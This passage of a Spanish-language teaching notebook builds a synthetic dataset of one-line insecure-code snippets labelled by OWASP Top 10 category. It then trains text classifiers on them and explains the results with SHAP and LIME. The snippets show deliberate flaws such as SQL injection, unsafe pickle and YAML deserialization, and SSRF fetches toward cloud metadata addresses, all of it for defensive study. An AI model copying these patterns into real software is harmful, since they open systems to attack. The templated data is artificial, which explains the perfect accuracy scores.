    ],
    "A05_Security_Misconfiguration": [
        "DEBUG = True  # en producción expone stacktraces",
        "app.config['SECRET_KEY'] = 'changeme'  # clave por defecto",
        "<Directory />\n  Options Indexes FollowSymLinks\n  AllowOverride None\n</Directory>",
        "CORS(app, resources={r'/*': {'origins': '*'}})  # CORS abierto",
        "server { listen 80; autoindex on; }  # listado de directorios habilitado",
        "spring.h2.console.enabled=true  # consola H2 expuesta en prod",
        "X-Powered-By: PHP/5.6.0  // header revela versión obsoleta",
        "docker run --privileged -p 27017:27017 mongo  # Mongo sin auth expuesto {path}",
        "app.run(host='0.0.0.0', debug=True)  # debug en producción",
        "headers = {}  # faltan X-Frame-Options, CSP, HSTS",
    ],
    "A06_Vulnerable_Components": [
        "# requirements.txt\nDjango==1.11.0  # versión con CVEs conocidos",
        "<script src='https://code.jquery.com/jquery-1.4.2.min.js'></script>  <!-- jQuery vulnerable -->",
        "log4j-core 2.14.1  # vulnerable a Log4Shell CVE-2021-44228",
        "openssl 1.0.1f  # Heartbleed CVE-2014-0160",
        "\"lodash\": \"4.17.4\"  // CVE prototype pollution",
        "FROM node:8  # imagen base sin soporte",
        "spring-core 4.3.0 // vulnerable a Spring4Shell {path}",
        "pip install flask==0.10.0  # versión antigua sin parches",
        "<dependency>struts2-core 2.3.15</dependency>  <!-- CVE-2017-5638 -->",
        "composer.json: \"symfony/http-kernel\": \"2.7.0\"  // múltiples CVEs",
    ],
    "A07_Auth_Failures": [
        "if password == stored_password:  # comparación sin hash ni constant_time",
        "session['user'] = username  # sin regenerar ID tras login -> session fixation",
        "def login(u, p):\n    if u in users and users[u] == p: return True  # sin rate limiting {path}",
        "<?php setcookie('session', $sid); ?>  // sin HttpOnly ni Secure",
        "if attempts < 9999:\n    try_login()  # sin bloqueo por intentos fallidos",
        "JWT.create().sign(Algorithm.none());  // JWT sin firma",
        "password_policy = r'.*'  # política de contraseñas inexistente",
        "def remember_me(token):\n    return base64.b64decode(token)  # token predecible",
        "# 2FA opcional incluso para administradores",
        "auth_token = uuid.uuid1()  # UUID1 es predecible (timestamp)",
    ],
    "A08_Integrity_Failures": [
        "pickle.loads(request.data)  # deserialización insegura",
        "yaml.load(user_input)  # sin SafeLoader, ejecuta objetos",
        "<script src='http://cdn.untrusted.com/lib.js'></script>  <!-- sin SRI -->",
        "ObjectInputStream in = new ObjectInputStream(socket.getInputStream()); // Java deser",
        "auto_update_url = 'http://updates.app.com'  # actualizaciones sin firma {path}",
        "npm install --no-verify-signatures pkg  # paquetes sin verificación",
        "exec(downloaded_code)  # ejecuta código bajado sin validar checksum",
        "git clone http://github.com/repo.git  # clone sin verificar firma GPG",
        "Marshal.load(params[:data])  # Ruby deserialización",
        "<link rel='stylesheet' href='https://x.com/a.css'>  <!-- sin integrity hash -->",
    ],
    "A09_Logging_Failures": [
        "try:\n    do_payment()\nexcept:\n    pass  # excepción silenciada, sin log",
        "logger.info(f'Usuario {user} ingresó password={pwd}')  # PII en logs",
        "# no se registran intentos fallidos de login {path}",
        "logging.basicConfig(level=logging.CRITICAL)  # casi nada se loguea",
        "<?php error_reporting(0); ?>  // errores ocultados sin log alterno",
        "catch (Exception e) {}  // Java: se traga la excepción",
        "if not user.is_admin: return  # sin auditoría de accesos denegados",
        "# eventos de seguridad solo se guardan localmente y se rotan a las 24h",
        "syslog_server = None  # sin envío centralizado de logs",
        "console.log(creditCard);  // datos sensibles en consola del navegador",
    ],
    "A10_SSRF": [
        "url = request.GET.get('url')\nresp = requests.get(url)  # SSRF clásico",
        "img = urllib.request.urlopen(user_supplied_url)  # SSRF en fetch de imagen",
        "<?php $data = file_get_contents($_GET['endpoint']); ?>  // SSRF PHP",
        "fetch(req.query.target).then(r => r.text())  // SSRF Node.js {path}",
        "curl_setopt($ch, CURLOPT_URL, $_POST['callback']);  // SSRF curl",
        "webhook = WebhookClient(url=request.json['hook'])  # sin allowlist de dominios",
        "response = httpx.get(f'http://internal.svc/{user_path}')  # path injection -> SSRF",
        "preview = requests.get(link, allow_redirects=True)  # redirección puede ir a 169.254.169.254",
        "ImageIO.read(new URL(userUrl));  // Java SSRF",
        "axios.get(req.body.profileUrl)  // SSRF a metadata cloud",
    ],
}

def generar_dataset(plantillas, n_por_clase=80, seed=42):
    random.seed(seed)
    filas = []
    nombres_var = ['user', 'admin', 'data', 'token', 'param', 'value', 'item', 'config', 'session', 'request']
    for etiqueta, ejemplos in plantillas.items():
        for _ in range(n_por_clase):
            base = random.choice(ejemplos)
            var = random.choice(nombres_var) + str(random.randint(1, 999))
            fragmento = base.replace('{path}', var)
            if random.random() < 0.3:
                fragmento += f"\n# revisar: {var}"
            filas.append({'codigo': fragmento, 'etiqueta': etiqueta})
    df_t2 = pd.DataFrame(filas).sample(frac=1, random_state=seed).reset_index(drop=True)
    return df_t2

df_t2 = generar_dataset(PLANTILLAS, n_por_clase=80)
print(f"Dataset generado: {len(df_t2)} fragmentos | {df_t2['etiqueta'].nunique()} clases")
print()
display(df_t2['etiqueta'].value_counts().rename('conteo').to_frame())

Dataset generado: 800 fragmentos | 10 clases



,conteo
etiqueta,
A09_Logging_Failures,80
A01_Broken_Access_Control,80
A07_Auth_Failures,80
A08_Integrity_Failures,80
A05_Security_Misconfiguration,80
A10_SSRF,80
A06_Vulnerable_Components,80
A04_Insecure_Design,80
A03_Injection,80


## 2. Análisis Exploratorio de Datos (EDA)



In [19]:
# Distribución de clases
orden_clases = sorted(df_t2['etiqueta'].unique())

fig, axes = plt.subplots(1, 2, figsize=(14, 5))

sns.countplot(data=df_t2, y='etiqueta', order=orden_clases,
              palette='viridis', ax=axes[0])
axes[0].set_title('Distribución de fragmentos por categoría OWASP Top 10 (2021)')
axes[0].set_xlabel('Cantidad de fragmentos')
axes[0].set_ylabel('Categoría')

df_t2['n_tokens'] = df_t2['codigo'].str.split().str.len()
sns.boxplot(data=df_t2, x='n_tokens', y='etiqueta',
            order=orden_clases, palette='magma', ax=axes[1])
axes[1].set_title('Distribución de longitud (tokens) por categoría')
axes[1].set_xlabel('N.° de tokens')
axes[1].set_ylabel('')

plt.tight_layout()
plt.show()

In [20]:
# Vocabulario característico por categoría (top 8 tokens)
def tokenizar_codigo(texto):
    return re.findall(r'[A-Za-z_][A-Za-z0-9_]+', texto.lower())

print("Tokens más frecuentes por categoría:")
for clase in orden_clases:
    tokens = []
    for t in df_t2.loc[df_t2['etiqueta'] == clase, 'codigo']:
        tokens.extend(tokenizar_codigo(t))
    top = Counter(tokens).most_common(8)
    print(f"\n  {clase}:")
    print("   ", ", ".join([f"{w}({c})" for w, c in top]))

Tokens más frecuentes por categoría:

  A01_Broken_Access_Control:
    id(42), revisar(38), sin(38), return(29), admin(29), def(27), file(24), restricci(22)

  A02_Cryptographic_Failures:
    http(28), key(27), des(24), rc4(22), revisar(20), sha1(20), est(19), cipher(18)

  A03_Injection:
    injection(31), select(25), from(25), where(25), eval(24), get(24), revisar(22), php(20)

  A04_Insecure_Design:
    de(44), def(40), ni(27), email(26), amount(22), to(22), no(20), se(20)

  A05_Security_Misconfiguration:
    app(27), revisar(23), true(19), en(19), directory(18), options(18), cors(18), mongo(16)

  A06_Vulnerable_Components:
    cve(34), core(31), vulnerable(30), jquery(24), sin(20), revisar(20), dependency(18), versi(16)

  A07_Auth_Failures:
    sin(42), token(39), jwt(28), predecible(24), def(22), return(22), uuid1(22), revisar(21)

  A08_Integrity_Failures:
    sin(64), com(44), http(35), firma(26), revisar(23), git(20), clone(20), script(18)

  A09_Logging_Failures:
    se(46)

## 3. Preprocesamiento y Vectorización

Se usa `TfidfVectorizer` con un tokenizador propio para código fuente. Los parámetros clave respecto al Taller 1 son:
- `sublinear_tf=True`: suaviza el efecto de tokens muy frecuentes.
- `max_df=0.9`: descarta términos que aparecen en casi todos los fragmentos.
- `min_df=2`: descarta términos que aparecen en menos de 2 fragmentos.


In [21]:
def tokenizer_codigo(texto):
    texto = texto.lower()
    return re.findall(r'[a-z_][a-z0-9_]*|[0-9]+|[=<>!+\-*/%&|^]+', texto)

ejemplo = "cursor.execute(f'SELECT * FROM users WHERE id={user_id}')"
print("Fragmento de ejemplo:")
print(" ", ejemplo)
print("\nTokens generados:")
print(" ", tokenizer_codigo(ejemplo))

Fragmento de ejemplo:
  cursor.execute(f'SELECT * FROM users WHERE id={user_id}')

Tokens generados:
  ['cursor', 'execute', 'f', 'select', '*', 'from', 'users', 'where', 'id', '=', 'user_id']


In [22]:
X_t2 = df_t2['codigo']
y_t2 = df_t2['etiqueta']

X_train_t2, X_test_t2, y_train_t2, y_test_t2 = train_test_split(
    X_t2, y_t2, test_size=0.25, stratify=y_t2, random_state=42
)

vectorizer_t2 = TfidfVectorizer(
    tokenizer=tokenizer_codigo,
    ngram_range=(1, 2),
    min_df=2,
    max_df=0.9,
    sublinear_tf=True,
)

X_train_vec_t2 = vectorizer_t2.fit_transform(X_train_t2)
X_test_vec_t2  = vectorizer_t2.transform(X_test_t2)

print(f"Vocabulario TF-IDF: {len(vectorizer_t2.vocabulary_)} términos")
print(f"Train: {X_train_vec_t2.shape} | Test: {X_test_vec_t2.shape}")

Vocabulario TF-IDF: 1565 términos
Train: (600, 1565) | Test: (200, 1565)


## 4. Modelado: Clasificación Multiclase

### 4.1 Regresión Logística

In [23]:
log_reg_t2 = LogisticRegression(max_iter=1000, C=2.0, solver='lbfgs', random_state=42)
log_reg_t2.fit(X_train_vec_t2, y_train_t2)
y_pred_lr_t2 = log_reg_t2.predict(X_test_vec_t2)

acc_lr_t2 = accuracy_score(y_test_t2, y_pred_lr_t2)
print(f"=== Regresión Logística ===")
print(f"Accuracy: {acc_lr_t2:.4f}\n")
print(classification_report(y_test_t2, y_pred_lr_t2, zero_division=0))

=== Regresión Logística ===
Accuracy: 1.0000

                               precision    recall  f1-score   support

    A01_Broken_Access_Control       1.00      1.00      1.00        20
   A02_Cryptographic_Failures       1.00      1.00      1.00        20
                A03_Injection       1.00      1.00      1.00        20
          A04_Insecure_Design       1.00      1.00      1.00        20
A05_Security_Misconfiguration       1.00      1.00      1.00        20
    A06_Vulnerable_Components       1.00      1.00      1.00        20
            A07_Auth_Failures       1.00      1.00      1.00        20
       A08_Integrity_Failures       1.00      1.00      1.00        20
         A09_Logging_Failures       1.00      1.00      1.00        20
                     A10_SSRF       1.00      1.00      1.00        20

                     accuracy                           1.00       200
                    macro avg       1.00      1.00      1.00       200
                 weighted avg

### 4.2 Random Forest

In [24]:
rf_t2 = RandomForestClassifier(
    n_estimators=300, max_depth=None,
    min_samples_leaf=2, random_state=42, n_jobs=-1,
)
rf_t2.fit(X_train_vec_t2, y_train_t2)
y_pred_rf_t2 = rf_t2.predict(X_test_vec_t2)

acc_rf_t2 = accuracy_score(y_test_t2, y_pred_rf_t2)
print(f"=== Random Forest ===")
print(f"Accuracy: {acc_rf_t2:.4f}\n")
print(classification_report(y_test_t2, y_pred_rf_t2, zero_division=0))

=== Random Forest ===
Accuracy: 1.0000

                               precision    recall  f1-score   support

    A01_Broken_Access_Control       1.00      1.00      1.00        20
   A02_Cryptographic_Failures       1.00      1.00      1.00        20
                A03_Injection       1.00      1.00      1.00        20
          A04_Insecure_Design       1.00      1.00      1.00        20
A05_Security_Misconfiguration       1.00      1.00      1.00        20
    A06_Vulnerable_Components       1.00      1.00      1.00        20
            A07_Auth_Failures       1.00      1.00      1.00        20
       A08_Integrity_Failures       1.00      1.00      1.00        20
         A09_Logging_Failures       1.00      1.00      1.00        20
                     A10_SSRF       1.00      1.00      1.00        20

                     accuracy                           1.00       200
                    macro avg       1.00      1.00      1.00       200
                 weighted avg      

### 4.3 Comparativa de modelos

In [25]:
# Comparativa
mejor_modelo_t2 = rf_t2 if acc_rf_t2 >= acc_lr_t2 else log_reg_t2
nombre_mejor_t2 = 'Random Forest' if acc_rf_t2 >= acc_lr_t2 else 'Regresión Logística'

comparativa = pd.DataFrame({
    'Modelo':    ['Regresión Logística', 'Random Forest'],
    'Accuracy':  [round(acc_lr_t2, 4), round(acc_rf_t2, 4)],
})
display(comparativa.set_index('Modelo'))
print(f"\nMejor modelo: {nombre_mejor_t2}")

,Accuracy
Modelo,
Regresión Logística,1.0
Random Forest,1.0



Mejor modelo: Random Forest


## 5. Evaluación Visual: Matriz de Confusión



In [26]:
fig, axes = plt.subplots(1, 2, figsize=(22, 8))
clases_t2 = sorted(y_t2.unique())
etiquetas_cortas = [c[:6] for c in clases_t2]

for ax, (nombre, y_pred_) in zip(axes, [
    ('Regresión Logística', y_pred_lr_t2),
    ('Random Forest',       y_pred_rf_t2),
]):
    cm_ = confusion_matrix(y_test_t2, y_pred_, labels=clases_t2)
    sns.heatmap(cm_, annot=True, fmt='d', cmap='Blues',
                xticklabels=etiquetas_cortas,
                yticklabels=etiquetas_cortas,
                ax=ax, cbar=False, linewidths=0.4)
    ax.set_title(f'Matriz de Confusión — {nombre}', fontsize=13, fontweight='bold')
    ax.set_xlabel('Predicción', fontsize=11)
    ax.set_ylabel('Clase real', fontsize=11)

plt.tight_layout()
plt.show()

### 5.1 Cálculo Manual de Precisión para A03_Injection

Tarea D de la actividad: la **precisión** de una clase se calcula como:

$$\text{Precision}_{A03} = \frac{VP_{A03}}{VP_{A03} + FP_{A03}} = \frac{cm[A03, A03]}{\sum_{i} cm[i, A03]}$$


In [27]:
cm_rf = confusion_matrix(y_test_t2, y_pred_rf_t2, labels=clases_t2)
idx_a03 = clases_t2.index('A03_Injection')

VP_A03 = cm_rf[idx_a03, idx_a03]
FP_A03 = cm_rf[:, idx_a03].sum() - VP_A03
precision_a03_manual = VP_A03 / (VP_A03 + FP_A03) if (VP_A03 + FP_A03) > 0 else 0

print(f"Índice de A03_Injection en la matriz: {idx_a03}")
print(f"VP (diagonal):       {VP_A03}")
print(f"FP (columna - VP):   {FP_A03}")
print(f"Precisión manual:    {precision_a03_manual:.4f}")
print()
print("Verificación con classification_report (columna 'precision' para A03_Injection):")
print(classification_report(y_test_t2, y_pred_rf_t2,
      target_names=clases_t2, zero_division=0, digits=4))

Índice de A03_Injection en la matriz: 2
VP (diagonal):       20
FP (columna - VP):   0
Precisión manual:    1.0000

Verificación con classification_report (columna 'precision' para A03_Injection):
                               precision    recall  f1-score   support

    A01_Broken_Access_Control     1.0000    1.0000    1.0000        20
   A02_Cryptographic_Failures     1.0000    1.0000    1.0000        20
                A03_Injection     1.0000    1.0000    1.0000        20
          A04_Insecure_Design     1.0000    1.0000    1.0000        20
A05_Security_Misconfiguration     1.0000    1.0000    1.0000        20
    A06_Vulnerable_Components     1.0000    1.0000    1.0000        20
            A07_Auth_Failures     1.0000    1.0000    1.0000        20
       A08_Integrity_Failures     1.0000    1.0000    1.0000        20
         A09_Logging_Failures     1.0000    1.0000    1.0000        20
                     A10_SSRF     1.0000    1.0000    1.0000        20

                    

## 6. Explicabilidad Global con SHAP

SHAP (SHapley Additive exPlanations) descompone cada predicción en pesos individuales de cada token del vocabulario TF-IDF. Se usa `TreeExplainer` sobre el Random Forest, que calcula los valores exactos y es más eficiente.


In [28]:
feature_names_t2 = np.array(vectorizer_t2.get_feature_names_out())

n_muestra = min(60, X_test_vec_t2.shape[0])
idx_muestra = np.random.RandomState(42).choice(X_test_vec_t2.shape[0], n_muestra, replace=False)
X_sample_t2 = X_test_vec_t2[idx_muestra].toarray()

explainer_shap = shap.TreeExplainer(rf_t2)
shap_values = explainer_shap.shap_values(X_sample_t2, check_additivity=False)

if isinstance(shap_values, list):
    print(f"Número de clases: {len(shap_values)}")
    print(f"Shape por clase:  {shap_values[0].shape}")
else:
    print(f"Shape: {shap_values.shape}")

Shape: (60, 1565, 10)


### 6.1 Top 20 Tokens Más Influyentes (SHAP Global)




Top 5 tokens:
  1. sin                                 importancia: 0.01286
  2. ssrf                                importancia: 0.00999
  3. def                                 importancia: 0.00687
  4. =                                   importancia: 0.00683
  5. se                                  importancia: 0.00611


In [29]:
if isinstance(shap_values, list):
    abs_vals = np.mean([np.abs(sv) for sv in shap_values], axis=0)
else:
    abs_vals = np.mean(np.abs(shap_values), axis=-1)

mean_importance = abs_vals.mean(axis=0)
top_idx = np.argsort(mean_importance)[-20:][::-1]

fig, ax = plt.subplots(figsize=(10, 7))
sns.barplot(x=mean_importance[top_idx], y=feature_names_t2[top_idx],
            palette='rocket', ax=ax)
ax.set_title('Top 20 tokens más influyentes — SHAP global (Random Forest)', fontsize=13)
ax.set_xlabel('Importancia media |SHAP|')
ax.set_ylabel('Token / n-grama')
plt.tight_layout()
plt.show()

print("\nTop 5 tokens:")
for i, idx in enumerate(top_idx[:5], 1):
    print(f"  {i}. {feature_names_t2[idx]:35s} importancia: {mean_importance[idx]:.5f}")

### 6.2 Explicación SHAP sobre un solo fragmento

Fragmento analizado:
<?php $q = "SELECT * FROM u WHERE n='".$_GET['n']."'"; ?>  // SQLi PHP

Clase real:     A03_Injection
Clase predicha: A03_Injection




In [30]:
ej_idx  = idx_muestra[0]
ej_texto = X_test_t2.iloc[ej_idx]
ej_real  = y_test_t2.iloc[ej_idx]
ej_pred  = rf_t2.predict(X_test_vec_t2[ej_idx])[0]
idx_clase_pred = list(rf_t2.classes_).index(ej_pred)

print("Fragmento analizado:")
print(ej_texto)
print(f"\nClase real:     {ej_real}")
print(f"Clase predicha: {ej_pred}")

if isinstance(shap_values, list):
    shap_ej = shap_values[idx_clase_pred][0]
else:
    shap_ej = shap_values[0, :, idx_clase_pred]

contrib = pd.DataFrame({'feature': feature_names_t2, 'shap': shap_ej})
contrib['abs'] = contrib['shap'].abs()
top_contrib = contrib.sort_values('abs', ascending=False).head(12)
top_contrib = top_contrib[top_contrib['abs'] > 0]

if len(top_contrib) > 0:
    fig, ax = plt.subplots(figsize=(9, 5))
    colores = ['#2ecc71' if v > 0 else '#e74c3c' for v in top_contrib['shap']]
    ax.barh(top_contrib['feature'][::-1], top_contrib['shap'][::-1], color=colores[::-1])
    ax.axvline(0, color='black', linewidth=0.6)
    ax.set_title(f'Aportes SHAP locales — clase predicha: {ej_pred}', fontsize=12)
    ax.set_xlabel('Valor SHAP (verde: empuja hacia la clase predicha, rojo: en contra)')
    plt.tight_layout()
    plt.show()
else:
    print("No se encontraron tokens del fragmento en el vocabulario TF-IDF.")

## 7. Explicabilidad Local con LIME

LIME analiza el fragmento, genera vecinos y ajusta un modelo lineal para identificar qué palabras del código influyeron en la predicción.

In [31]:
from lime.lime_text import LimeTextExplainer as LimeTextExp

pipeline_t2 = Pipeline([('tfidf', vectorizer_t2), ('clf', rf_t2)])

explainer_lime_t2 = LimeTextExp(class_names=list(rf_t2.classes_))

DESCRIPCIONES_OWASP = {
    "A01_Broken_Access_Control":   "Control de acceso roto: referencias directas inseguras, rutas sin autenticación.",
    "A02_Cryptographic_Failures":  "Fallas criptográficas: algoritmos obsoletos (MD5, SHA-1, RC4), claves hardcodeadas.",
    "A03_Injection":               "Inyección: SQL Injection, XSS, Command Injection, LDAP Injection.",
    "A04_Insecure_Design":         "Diseño inseguro: flujos de negocio sin validación, ausencia de controles fundamentales.",
    "A05_Security_Misconfiguration": "Mala configuración: DEBUG activo, CORS abierto, secretos por defecto.",
    "A06_Vulnerable_Components":   "Componentes vulnerables: dependencias con CVEs conocidos, imágenes sin soporte.",
    "A07_Auth_Failures":           "Fallas de autenticación: sin rate limiting, JWT sin firma, sesiones inseguras.",
    "A08_Integrity_Failures":      "Fallas de integridad: pickle/yaml inseguros, scripts sin SRI, actualizaciones sin firma.",
    "A09_Logging_Failures":        "Fallas de logging: excepciones silenciadas, datos sensibles en logs, sin auditoría.",
    "A10_SSRF":                    "SSRF: solicitudes del servidor a URLs controladas por el atacante.",
}

def analizar_codigo(codigo, top_k=3, num_features_lime=10, mostrar_lime=True, mostrar_shap=True):
    """Analiza un fragmento de código con el modelo del Taller 2 (OWASP multiclase)."""
    probas   = pipeline_t2.predict_proba([codigo])[0]
    pred     = pipeline_t2.predict([codigo])[0]
    idx_pred = list(rf_t2.classes_).index(pred)
    ranking  = pd.Series(probas, index=rf_t2.classes_).sort_values(ascending=False)
    descripcion = DESCRIPCIONES_OWASP.get(pred, '')

    display(Markdown(f"### Predicción: `{pred}`"))
    display(Markdown(f"**Confianza:** `{probas[idx_pred]*100:.2f}%`\n\n_{descripcion}_"))
    display(Markdown(f"**Top {top_k} categorías más probables:**"))
    top_df = ranking.head(top_k).to_frame('probabilidad')
    top_df['probabilidad'] = (top_df['probabilidad']*100).round(2).astype(str) + ' %'
    display(top_df)

    fig, ax = plt.subplots(figsize=(9, 4))
    colores = ['#27ae60' if c == pred else '#95a5a6' for c in ranking.index]
    ax.barh(ranking.index[::-1], ranking.values[::-1]*100, color=colores[::-1])
    ax.set_xlabel('Probabilidad (%)')
    ax.set_title('Distribución de probabilidades por categoría OWASP')
    plt.tight_layout()
    plt.show()

    if mostrar_lime:
        display(Markdown('### Explicación LIME'))
        exp = explainer_lime_t2.explain_instance(
            codigo, pipeline_t2.predict_proba,
            num_features=num_features_lime, labels=[idx_pred]
        )
        lime_df = pd.DataFrame(exp.as_list(label=idx_pred), columns=['token', 'peso_LIME'])
        lime_df['efecto'] = lime_df['peso_LIME'].apply(
            lambda v: f'empuja hacia {pred}' if v > 0 else f'aleja de {pred}'
        )
        display(lime_df)
        try:
            display(HTML(exp.as_html(labels=[idx_pred])))
        except Exception:
            pass

    if mostrar_shap:
        display(Markdown('### Explicación SHAP'))
        vec = vectorizer_t2.transform([codigo]).toarray()
        sv  = explainer_shap.shap_values(vec, check_additivity=False)
        if isinstance(sv, list):
            shap_vec = sv[idx_pred][0]
        else:
            shap_vec = sv[0, :, idx_pred]
        contrib = pd.DataFrame({'feature': feature_names_t2, 'shap': shap_vec})
        top = contrib.reindex(contrib['shap'].abs().sort_values(ascending=False).index).head(12)
        top = top[top['shap'].abs() > 0]
        if len(top) > 0:
            fig, ax = plt.subplots(figsize=(9, 4))
            colores = ['#2ecc71' if v > 0 else '#e74c3c' for v in top['shap']]
            ax.barh(top['feature'][::-1], top['shap'][::-1], color=colores[::-1])
            ax.axvline(0, color='black', linewidth=0.6)
            ax.set_title(f'Aportes SHAP — clase: {pred}')
            ax.set_xlabel('Valor SHAP')
            plt.tight_layout()
            plt.show()

    return {'prediccion': pred, 'confianza': float(probas[idx_pred]), 'ranking': ranking}

---
## Parte A: Exploración del Dataset

### Tarea A.1: Distribución del dataset


In [32]:
# Distribución por clase
print(df_t2['etiqueta'].value_counts().to_string())
print(f'\nTotal de fragmentos: {len(df_t2)}')
print()
n_min = df_t2['etiqueta'].value_counts().min()
n_max = df_t2['etiqueta'].value_counts().max()
diff_pct = (n_max - n_min) / n_max * 100
print(f'Diferencia máx-mín: {diff_pct:.1f}%')
print(f'¿Balanceado? (diferencia < 10%): {"Sí" if diff_pct < 10 else "No"} — diferencia = {diff_pct:.1f}%')

etiqueta
A09_Logging_Failures             80
A01_Broken_Access_Control        80
A07_Auth_Failures                80
A08_Integrity_Failures           80
A05_Security_Misconfiguration    80
A10_SSRF                         80
A06_Vulnerable_Components        80
A04_Insecure_Design              80
A03_Injection                    80
A02_Cryptographic_Failures       80

Total de fragmentos: 800

Diferencia máx-mín: 0.0%
¿Balanceado? (diferencia < 10%): Sí — diferencia = 0.0%


### Tarea A.2: Impacto de reducir n_por_clase

In [33]:
# Comparar accuracy con n_por_clase=30 vs n_por_clase=80
df_t2_small = generar_dataset(PLANTILLAS, n_por_clase=30)

X_s, X_ts, y_s, y_ts = train_test_split(
    df_t2_small['codigo'], df_t2_small['etiqueta'],
    test_size=0.25, stratify=df_t2_small['etiqueta'], random_state=42
)
vec_s = TfidfVectorizer(tokenizer=tokenizer_codigo, ngram_range=(1,2),
                        min_df=1, max_df=0.9, sublinear_tf=True)
X_s_vec  = vec_s.fit_transform(X_s)
X_ts_vec = vec_s.transform(X_ts)

rf_small = RandomForestClassifier(n_estimators=300, min_samples_leaf=2,
                                  random_state=42, n_jobs=-1)
rf_small.fit(X_s_vec, y_s)
acc_small = accuracy_score(y_ts, rf_small.predict(X_ts_vec))

print(f"Accuracy con n_por_clase=80: {acc_rf_t2:.4f}")
print(f"Accuracy con n_por_clase=30: {acc_small:.4f}")
print(f"Diferencia:                  {(acc_rf_t2 - acc_small):.4f} ({(acc_rf_t2 - acc_small)*100:.1f} pp)")

# Matriz reducida para identificar la clase más afectada
report_small = classification_report(
    y_ts, rf_small.predict(X_ts_vec),
    output_dict=True, zero_division=0
)
f1_por_clase = {k: v['f1-score'] for k, v in report_small.items()
                if k not in ['accuracy','macro avg','weighted avg']}
clase_mas_afectada = min(f1_por_clase, key=f1_por_clase.get)
print(f"\nClase más afectada: {clase_mas_afectada} (F1 = {f1_por_clase[clase_mas_afectada]:.4f})")

Accuracy con n_por_clase=80: 1.0000
Accuracy con n_por_clase=30: 0.8800
Diferencia:                  0.1200 (12.0 pp)

Clase más afectada: A07_Auth_Failures (F1 = 0.7500)


## Parte B Preprocesamiento y Vectorización

### Tarea B.1 Entender el tokenizador


